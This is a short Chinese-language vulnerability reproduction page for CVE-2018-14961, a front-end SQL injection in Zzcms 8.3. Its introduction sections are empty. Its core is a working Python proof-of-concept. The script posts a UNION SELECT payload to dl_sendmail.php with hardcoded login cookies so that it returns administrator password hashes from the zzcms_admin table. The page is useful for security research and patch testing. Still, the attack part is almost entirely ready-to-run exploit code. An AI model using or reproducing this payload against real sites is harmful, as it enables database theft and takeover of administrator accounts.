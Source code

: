 （CVE-2018-14961）Zzcms 8.3 前台sql注入
=======================================

一、漏洞简介
------------

二、漏洞影响
------------

Zzcms 8.3

三、复现过程
------------

    #!/usr/bin/env python
    #Author:Sublime
    #coding:utf-8
    import requests as req

    url = "http://0-sec.org:8080/dl/dl_sendmail.php"
    cookies = {'UserName':'test','PassWord':'81dc9bdb52d04dc20036dbd8313ed055'}
    data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

    q = req.post(url,data,cookies=cookies,allow_redirects=False)
    print q.status_code
    print q.content

测试结果为：

![](resource/(CVE-2018-14961)Zzcms8.3前台sql注入/media/rId24.png)

参考链接
--------

> <https://www.anquanke.com/post/id/156660>

